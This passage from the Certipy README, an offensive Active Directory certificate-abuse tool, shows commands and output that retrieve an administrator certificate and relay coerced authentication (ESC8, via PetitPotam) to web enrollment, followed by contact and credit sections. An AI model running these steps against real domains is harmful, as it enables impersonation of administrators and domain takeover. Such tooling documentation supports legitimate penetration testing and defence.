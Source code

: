 ```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -retrieve 785
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 785
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Loaded private key from '785.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

#### ESC8

ESC8 is when an Enrollment Service has installed and enabled Web Enrollment via HTTP.

To start the relay server, we can run the `relay` command and specify the CA's IP in `-ca`.

By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.

We can then use a technique such as [PetitPotam](https://github.com/ly4k/PetitPotam) to coerce authentication. For domain controllers, we must specify `-template DomainController`.

```bash
$ certipy relay -ca ca.corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```

#### ESC9 & ESC10

ESC9 and ESC10 is not related to any specific Certipy commands or parameters, but can be abused with Certipy. See the [blog post](https://research.ifcr.dk/7237d88061f7) for more information.

## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter [@ly4k_](https://twitter.com/ly4k_).

## Credits

- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) and [Certify](https://github.com/GhostPack/Certify)
- [Dirk-jan](https://twitter.com/_dirkjan) for [PKINITtools](https://github.com/dirkjanm/PKINITtools)
- [ShutdownRepo](https://github.com/ShutdownRepo) for [PyWhisker](https://github.com/ShutdownRepo/pywhisker)
- [zer1t0](https://github.com/zer1t0) for [certi](https://github.com/zer1t0/certi)
- [Ex Android Dev](https://github.com/ExAndroidDev) and [Tw1sm](https://github.com/Tw1sm) for Impacket's [adcsattack.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/httpattacks/adcsattack.py)
- [SecureAuthCorp](https://github.com/SecureAuthCorp) and all the [contributors](https://github.com/SecureAuthCorp/impacket/graphs/contributors) for [Impacket](https://github.com/SecureAuthCorp/impacket)
- [skelsec](https://github.com/skelsec) for [pypykatz](https://github.com/skelsec/pypykatz)